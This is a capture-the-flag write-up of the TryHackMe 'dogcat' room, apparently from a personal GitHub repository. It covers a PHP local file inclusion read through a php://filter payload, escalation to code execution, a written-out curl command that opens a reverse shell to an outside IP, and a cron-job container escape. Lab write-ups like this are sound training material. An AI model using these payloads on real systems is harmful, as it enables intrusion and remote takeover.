 # dogcat

https://tryhackme.com/room/dogcat

## Scan

We discover 2 ports (ssh and http)

![image](https://github.com/Roqlane/writeups/assets/78229498/0706358e-69c6-4d42-a1a3-a10ea209d386)

## Website

![image](https://github.com/Roqlane/writeups/assets/78229498/06bd7de1-dbd0-4c61-abeb-57df39a69a12)

So this is a site where you can see pictures of dogs and cats. Pretty nice! I am thinking of just looking at them instead of completing the chall XD

Hmmmm interesting result, seems like we got an lfi.

![image](https://github.com/Roqlane/writeups/assets/78229498/4673de48-4870-42c0-ad2e-173105a7a334)

This LFI is pretty tricky, I think the code behind it is like so:

`include ($file . ".php")`

To get the first flag, I first needed to perform an enum using gobuster:

`gobuster dir -u "http://10.10.242.241" -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php, .txt`

Then I discovered that there is a flag.php file. I tried to access it but it didn't print out any results. So we need a way to get its content. For that I use a payload from that article https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md.

Put it on practice: 

`http://10.10.17.47/?view=php://filter/convert.base64-encode/resource=cats/../../../../var/www/html/flag`

Got a base64 response so I used cyberchef to decode it

![image](https://github.com/Roqlane/writeups/assets/78229498/41946361-1ec4-4313-8a4a-9c80952ac182)

## Web shell

Now we have to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

![image](https://github.com/Roqlane/writeups/assets/78229498/9363c59d-214b-4d65-8fda-b02944433f4e)

I put the result in the FILTERS variable

![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)

Execute `ls%20..%2F` on the cmd param and you found out that there is the second flag

![image](https://github.com/Roqlane/writeups/assets/78229498/bc106a42-7a8e-4b8a-af42-a2b526eda277)

![image](https://github.com/Roqlane/writeups/assets/78229498/1ce01b76-9738-4661-b1d3-e9dc2d061995)

## Reverse shell

![image](https://github.com/Roqlane/writeups/assets/78229498/a5fe8bbc-12a5-4de9-9cca-f82e54845521)

`curl "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`

![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)

## privesc

Well...

![image](https://github.com/Roqlane/writeups/assets/78229498/a4c4198b-a6e0-4ab8-921a-b20e20f2ccca)

Or

![image](https://github.com/Roqlane/writeups/assets/78229498/8a6244f8-36b7-42ef-b848-36f04b8dd329)

![image](https://github.com/Roqlane/writeups/assets/78229498/b8083628-f747-46d3-841c-574ed560bbd6)

If I remember well, we are in a docker container, let's use this: https://github.com/stealthcopter/deepce

![image](https://github.com/Roqlane/writeups/assets/78229498/eeec3090-f522-474c-a816-29f5d9ca38c3)

![image](https://github.com/Roqlane/writeups/assets/78229498/a46bb9aa-97e2-4d04-8069-d0f6925e9a3a)


![image](https://github.com/Roqlane/writeups/assets/78229498/38aba1ee-a112-4557-bf46-3ad68b5986e4)

Well I passed a lot of time searching for docker escape, only to find out that the backup.sh file is executed as a cron job......
That surely means that the host is executing the file, so if we add a reverse shell to the file, we could access the host system.

![image](https://github.com/Roqlane/writeups/assets/78229498/7776b43b-65c8-4228-94bb-c54753145cad)

![image](https://github.com/Roqlane/writeups/assets/78229498/ff121d3e-86d4-49a5-842d-811c2ce13ac8)

I searched for a docker escape but it was a cron job all this time XD. 
